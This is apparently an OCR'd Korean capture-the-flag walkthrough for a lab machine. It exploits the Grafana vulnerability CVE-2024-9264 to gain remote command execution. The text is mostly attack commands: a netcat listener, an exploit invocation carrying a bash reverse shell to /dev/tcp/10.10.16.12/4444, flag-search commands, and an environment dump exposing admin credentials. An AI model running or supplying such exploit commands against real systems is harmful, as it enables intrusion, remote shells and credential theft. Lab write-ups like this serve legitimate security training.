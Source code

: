 ## 다음 단계 권장사항

### 안정적인 쉘 획득

```bash
# 리버스 쉘 리스너 준비 (새 터미널)
nc -nvlp 4444

# 리버스 쉘 페이로드 실행
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "bash -c 'bash -i >& /dev/tcp/10.10.16.12/4444 0>&1'" http://grafana.planning.htb
```

### 플래그 수집

```bash
# 사용자 플래그 찾기
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "find / -name user.txt -type f 2>/dev/null" http://grafana.planning.htb

# 루트 플래그 찾기
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "find / -name root.txt -type f 2>/dev/null" http://grafana.planning.htb
```

이 과정을 통해 **완전한 시스템 장악**과 **지속적인 액세스**가 가능해집니다.

### ENVIRONMENTAL

[-] Environment information:
AWS*AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=0
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
*=/usr/bin/env
